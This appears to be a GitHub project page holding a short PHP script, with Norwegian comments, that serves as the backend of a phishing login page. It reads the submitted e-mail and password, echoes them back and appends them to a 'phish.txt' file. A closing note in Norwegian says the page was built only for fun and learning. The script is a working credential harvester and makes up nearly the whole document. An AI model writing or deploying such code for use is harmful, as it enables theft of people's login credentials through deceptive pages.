 
```
<?php
if (isset($_POST["login"])) {  // Tar informasjon fra et HTML-form med POST og variabler med det
    $username = $_POST["E-mail"];
    $password = $_POST["password"]; 

    if (empty($username)) { // Sjekk om input boksene på HTML-formet er fylt ut, og hvis ikke, skriv "(X variabel) is not filled in"
        echo "E-mail is not filled in";
    } elseif (empty($password)) {
        echo "Password is not filled in";
    } else {
        echo "E-mail = $username <br>";
        echo "Password = $password <br>";
    }
}

($myfile = fopen("phish.txt", "a")) or die("Unable to open file"); // Åpner en .txt fil med fopen. "a" står for "append", som betyr at den skriver informasjonen på slutten av filen, istedet for å overwrite informasjon som allerede ligger der.
fwrite($myfile, "E-mail: $username \n"); // Skriver $username variablen inn i .txt filen den åpnet forrige linje.
fwrite($myfile, "Password: $password \n"); // Skriver $password variablen inn i samme .txt fil som $username.
fclose($myfile); // Lukker filen
?>

```

**Hvorfor lagde jeg denne phishing siden?**

Siden er ikke ment til å faktisk phishe noen, men var ment bare for lek og læring. Jeg kommer selvfølgelig aldri til å legge den ut og phishe homiesene mine (Det går imot bro-codexen)